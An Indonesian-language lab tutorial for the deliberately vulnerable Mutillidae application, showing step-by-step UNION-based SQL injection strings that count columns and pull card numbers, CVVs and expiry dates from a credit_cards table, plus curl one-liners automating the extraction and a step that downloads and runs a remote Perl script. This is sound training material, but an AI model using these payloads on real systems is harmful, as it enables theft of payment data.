 # Mutillidae Lesson 8

#### SQL Injection (Contoh #1)
- Pada halaman User Info, lakukan inspect element pada form Name dan ubah nilai size menjadi 100.
```
"size=100"`
```
- Isi form Name dengan string berikut
	```
    ' union select null -- //selalu tambahkan spasi setelah "--"
    ```
- Klik View Account Details
- Keterangan: Jumlah null melambangkan jumlah field pada tabel. 
- Hasil error disebabkan karena jumlah field tidak sesuai.


#### SQL Injection (Contoh #2)
- Ulangi langkah pada inspect element
- Isi form Name dengan string berikut
```
' union select null,null,null,null,null -- //selalu tambahkan spasi setelah "--"
```
- Klik View Account Details
- Keterangan: Untuk mengetahui jumlah field pada tabel dengan diulang dengan mencoba-coba hingga tidak terjadi error. Pada contoh diatas jumlah field-nya ada 5 sehingga ditulis null sebanyak 5.
- Hasilnya kosong karena nilai yang dimasukkan semuanya null.

#### SQL Injection (Contoh #3)
- Ulangi langkah pada inspect element
- Isi form Name dengan string berikut
```
' union select 1,2,3,4,5 -- //selalu tambahkan spasi setelah "--"
```
- Keterangan: Tujuannya adalah untuk mencari tahu urutan field pada tabel. Urutan field username, password, dan signature didapatkan sesuai dengan nilai yang dimasukkan.

#### SQL Injection (Contoh #4)
- Ulangi langkah pada inspect element
- Isi form Name dengan string berikut
```
' union select ccid,ccnumber,ccv,expiration,null from credit_cards --  //selalu tambahkan spasi setelah "--"
```
- Keterangan: Tujuannya adalah untuk mencari mengambil nilai dari tabel credit_cards sesuai dengan urutannya.
- Hasil :
```
Username berisi ccnumber
Password berisi ccv
Signature berisi expiration
```

#### SQL Injection (Contoh #5)
- Tujuannya sama dengan Contoh #4 dengan perbedaan pada metode yang menggunakan curl.
- Buka terminal dan jalankan perintah dibawah
```
curl -b crack_cookies.txt -c crack_cookies.txt --user-agent "Mozilla/4.0 (compatible; MSIE 5.01; Windows NT 5.0)" --data "page=user-info.php&username=%27+union+select+ccid%2Cccnumber%2Cccv%2Cexpiration%2Cnull+from+credit_cards+--+&password=&user-info-php-submit-button=View+Account+Details" --location "http://[ip_metasploit]/mutillidae/index.php" | grep -i "Username=" | awk 'BEGIN{FS="<"}{for (i=1; i<=NF; i++) print $i}' | awk -F\> '{print $2}'
```
- Maka hasilnya akan sama dengan Contoh #4.
- Untuk menyimpan hasil kedalam sebuah file jalankan perintah berikut
```
curl -b crack_cookies.txt -c crack_cookies.txt --user-agent "Mozilla/4.0 (compatible; MSIE 5.01; Windows NT 5.0)" --data "page=user-info.php&username=%27+union+select+ccid%2Cccnumber%2Cccv%2Cexpiration%2Cnull+from+credit_cards+--+&password=&user-info-php-submit-button=View+Account+Details" --location "http://[ip_metasploit]/mutillidae/index.php" | grep -i "Username="  > lesson8.txt
cat lesson8.txt
```
- Karena hasilnya susah dibaca, download dan jalankan output parser
```
cd /root
wget http://www.computersecuritystudent.com/SECURITY_TOOLS/MUTILLIDAE/MUTILLIDAE_2511/lesson8/lesson8.pl.TXT
mv lesson8.pl.TXT lesson8.pl
chmod 700
lesson8.pl
./lesson8.pl
```
    
